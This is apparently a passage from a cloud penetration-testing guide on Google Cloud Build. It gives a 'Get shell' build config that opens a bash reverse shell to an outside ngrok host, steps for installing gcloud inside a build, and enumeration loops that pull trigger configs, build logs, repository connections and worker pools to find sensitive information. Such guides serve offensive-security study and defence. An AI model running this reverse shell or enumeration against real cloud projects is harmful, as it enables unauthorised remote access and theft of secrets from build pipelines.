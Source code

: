 ### Get shell

```yaml
steps:
  - name: bash
    script: |
      #!/usr/bin/env bash
      bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/12395 0>&1
options:
  logging: CLOUD_LOGGING_ONLY
```

Install gcloud inside cloud build:

```bash
# https://stackoverflow.com/questions/28372328/how-to-install-the-google-cloud-sdk-in-a-docker-image
curl https://dl.google.com/dl/cloudsdk/release/google-cloud-sdk.tar.gz > /tmp/google-cloud-sdk.tar.gz
mkdir -p /usr/local/gcloud 
tar -C /usr/local/gcloud -xvf /tmp/google-cloud-sdk.tar.gz
/usr/local/gcloud/google-cloud-sdk/install.sh
```

### Enumeration

You could find **sensitive info in build configs and logs**.

```bash
# Get configured triggers configurations
gcloud builds triggers list # Check for the words github and bitbucket
gcloud builds triggers describe <trigger-name>

# Get build executions
gcloud builds list
gcloud builds describe <build-uuid> # Get even the build yaml if defined in there
gcloud builds log <build-uuid> # Get build logs

# List all connections of each region
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
    echo "Listing build connections in region: $region"
    connections=("${(@f)$(gcloud builds connections list --region="$region" --format='value(name)')}")
    if [[ ${#connections[@]} -eq 0 ]]; then
        echo "No connections found in region $region."
    else
        for connection in $connections; do
            echo "Describing connection $connection in region $region"
            gcloud builds connections describe "$connection" --region="$region"
            echo "-----------------------------------------"
        done
    fi
    echo "========================================="
done

# List all worker-pools
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
    echo "Listing build worker-pools in region: $region"
    gcloud builds worker-pools list --region="$region"
    echo "-----------------------------------------"
done
```
